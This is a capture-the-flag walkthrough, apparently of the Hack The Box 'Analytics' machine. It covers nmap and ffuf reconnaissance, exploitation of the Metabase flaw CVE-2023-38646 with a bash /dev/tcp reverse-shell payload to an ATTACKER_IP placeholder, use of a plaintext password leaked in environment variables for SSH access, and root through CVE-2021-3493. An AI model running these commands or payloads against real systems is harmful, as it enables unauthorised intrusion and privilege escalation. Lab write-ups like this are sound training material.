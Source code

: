 Start with Nmap scan

Command

```
/opt/mycustomscript/autonmapscan.sh

Enter the target IP address: 10.10.11.233
Starting Nmap 7.93 ( https://nmap.org ) at 2023-11-23 15:30 CST
Pre-scan script results:
|_broadcast-avahi-dos: ERROR: Script execution failed (use -d to debug)
Nmap scan report for 10.10.11.233
Host is up, received user-set (0.036s latency).

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack nginx 1.18.0 (Ubuntu)
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-csrf: Couldn't find any CSRF vulnerabilities.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

 Visiting the webpage, it redirects us to `http://analytical.htb/`. 

 We then need to add the `http://analytical.htb/` to our `/etc/hosts`

```
10.10.11.233 analytical.htb
```

Then by visiting `http://analytical.htb/` we should be able to see the page now.

There is not much that we can navigate on the page. 

There are name of people that might be a username

```
Jonnhy Smith
Alex Kirigo
Daniel Walker
due@analytical.com
```

We can keep this in our back pocket for now.

We will now fuzz the page.

We will use the tool `ffuf` 

Command:

`ffuf -u http://analytical.htb/FUZZ -w /opt/SecLists/Discovery/DNS/subdomains-top1million-110000.txt`

Result:

```
images                  [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 38ms]                                                                                                          
css                     [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 37ms]                                                                                                          
js                      [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 44ms]
```

Seems pretty standard, we will lso do a subdomain fuzz and see if there is something useful.

Command:

`ffuf -H "Host: FUZZ.analytical.htb" -u http://analytical.htb/ -w /opt/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -fs 154`

Result:

```
data                    [Status: 200, Size: 77858, Words: 3574, Lines: 28, Duration: 132ms]
```

We can see that there is a `http://data.analytical.htb/`, we will then add this to our host file.

We can now acess the page and gave us a login for Metabase

![image](https://github.com/L43371/Write-up/assets/129752764/b839bf28-daee-4d74-9df7-643bcb4aa484)

We can see that there is a recent vulnerability on Metabase **CVE 2023-38646**

`python3 main.py -u http://data.analytical.htb -t 249fa03d-fd94-4d5b-b94f-b4ebf3df681f│OLDPWD=/usr
 -c "bash -i >& /dev/tcp/ATTACKER_IP/ATTACKER_PORT 0>&1"

 We should be able to get a shell.

 Now we will run the command `env` , this will print the list of environment variables.

```
SHELL=/bin/sh                                                                                                                                                                                 
MB_DB_PASS=                                                                                                                                                                                   
HOSTNAME=e17988f13adc                                                                                                                                                                         
LANGUAGE=en_US:en                                                                                                                                                                             
MB_JETTY_HOST=0.0.0.0                                                                                                                                                                         
JAVA_HOME=/opt/java/openjdk                                                                                                                                                                   
MB_DB_FILE=//metabase.db/metabase.db                                                                                                                                                          
PWD=/                                                                                                                                                                                         
LOGNAME=metabase                                                                                                                                                                              
MB_EMAIL_SMTP_USERNAME=                                                                                                                                                                       
HOME=/home/metabase                                                                                                                                                                           
LANG=en_US.UTF-8                                                                                                                                                                              
META_USER=metalytics                                                                                                                                                                          
META_PASS=An4lytics_ds20223#                                                                                                                                                                  
MB_EMAIL_SMTP_PASSWORD=                                                                                                                                                                       
USER=metabase                                                                                                                                                                                 
SHLVL=4                                                                                                                                                                                       
MB_DB_USER=                                                                                                                                                                                   
FC_LANG=en-US                                                                                                                                                                                 
LD_LIBRARY_PATH=/opt/java/openjdk/lib/server:/opt/java/openjdk/lib:/opt/java/openjdk/../lib                                                                                                   
LC_CTYPE=en_US.UTF-8                                                                                                                                                                          
MB_LDAP_BIND_DN=                                                                                                                                                                              
LC_ALL=en_US.UTF-8                                                                                                                                                                            
MB_LDAP_PASSWORD=                                                                                                                                                                             
PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin                                                                                                       
MB_DB_CONNECTION_URI=                                                                                                                                                                         
JAVA_VERSION=jdk-11.0.19+7                                                                                                                                                                    
_=/usr/bin/env              
```

The user `metalytics` credential was exposed, we will try to ssh using this credential.

and it works. We will now use the exploit CVE-2021-3493.

We will download the `exploit.c` file to our machine and compile it then transfer it to the victim's machine and when running it. We should receive a root shell.

Success!

```
metalytics@analytics:/tmp$ ./exploit                                                                                                                                                          
bash-5.1# whoami                                                                                                                                                                              
root
```
